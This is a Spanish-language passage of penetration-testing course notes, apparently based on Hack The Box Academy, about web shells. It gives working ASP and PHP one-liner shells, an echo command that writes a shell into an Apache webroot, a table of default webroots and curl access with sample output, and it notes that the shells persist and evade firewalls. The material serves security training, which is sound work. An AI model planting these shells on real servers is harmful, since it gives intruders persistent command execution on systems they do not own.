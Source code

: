 Code:`asp`
~~~
<% eval request("cmd") %>
~~~
___

### CARGANDO UN WEB SHELL

Una vez que tengamos nuestro web shell, debemos colocar nuestro script de web shell en el directorio web del host remoto (webroot) para ejecutar el script a través del navegador web. Esto puede deberse a una vulnerabilidad en una función de carga, que nos permitiría escribir uno de nuestros shells en un archivo, es decir, shell.php y cargarlo, y luego acceder a nuestro archivo cargado para ejecutar comandos.

Sin embargo, si solo tenemos la ejecución de comandos remotos a través de un exploit, podemos escribir nuestro shell directamente en webroot para acceder a él a través de la web. Entonces, el primer paso es identificar dónde está el webroot. Los siguientes son los webroots predeterminados para servidores web comunes: 

| Web Server | Default Webroot |
| -- | -- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ |
| XAMPP | C:\xampp\htdocs\ |

Podemos verificar estos directorios para ver qué webroot está en uso y luego usar echo para escribir nuestro eb shell . Por ejemplo, si estamos atacando un host Linux que ejecuta Apache, podemos escribir un shell de `PHP` con el siguiente comando: 

Code:`bash`
~~~
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
~~~
___
### ACCEDIENDO AL WEB SHELL

Una vez que escribimos nuestro web shell, podemos acceder a él a través de un navegador o usando `cURL`. Podemos visitar la página `shell.php` en el sitio web comprometido y usar `?cmd=id` para ejecutar el comando `id`: 

![http://SERVER_IP:PORT/shell.php?cmd=id](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

Otra opcion es usando `cURL`
~~~
user@hostname$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

Como podemos ver, podemos seguir cambiando el comando para obtener su salida. Un gran beneficio de una web shell es que evitaría cualquier restricción de firewall existente, ya que no abrirá una nueva conexión en un puerto sino que se ejecutará en el puerto web 80 o 443, o en cualquier puerto que esté usando la aplicación web. Otro gran beneficio es que si se reinicia el host comprometido, el shell web aún estaría en su lugar, y podemos acceder a él y obtener la ejecución del comando sin explotar el host remoto nuevamente.
